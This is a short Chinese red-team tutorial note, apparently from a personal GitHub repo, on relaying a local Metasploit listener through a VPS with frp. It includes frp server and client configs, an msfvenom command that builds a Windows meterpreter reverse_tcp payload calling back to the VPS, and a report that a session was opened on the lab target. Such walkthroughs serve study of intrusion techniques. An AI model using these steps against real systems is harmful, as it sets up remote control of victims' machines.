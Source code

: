 # 场景三：frp代理本地msf

还是场景一的拓扑图，本地装有metasploit，通过本地的meatsploit来直接控制web服务器，而不需要将metasploit装到vps上。

局域网攻击机 <——> vps <——> 局域网靶机

<img src="../../../note/red/pictures/frp2.png" alt="frp1" style="zoom: 33%;" /> 

### vps配置

vps启也个frp的服务端

frps.ini:

```
[common]
bind_port = 7000
token = shadowtest
```

启动

```
./frps -c ./frps.ini
```



### 本地msf配置

本机启动一个frp的客户端，监听本机5555端口的流量，并映射到vps的4445端口。

```
[common]
server_addr = vps-ip
server_port = 7000
token = shadowtest
	
[vps]
type = tcp
local_ip = 127.0.0.1
local_port = 5555	#本地监听端口
remote_port = 4445 #将本地5555端口流量映射到vps4445端口
```

用msf生成远控，端口对应攻击机设置的remote_port

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=vps-ip lport=4445 -f exe >  frpmsf.exe
```

本地攻击机监听，端口配置攻击机local_port

<img src="../../../note/red/pictures/image-20201022101844646.png" alt="image-20201022101844646" style="zoom: 50%;" /> 

靶机执行msf远控，成功接收到了meterpreter
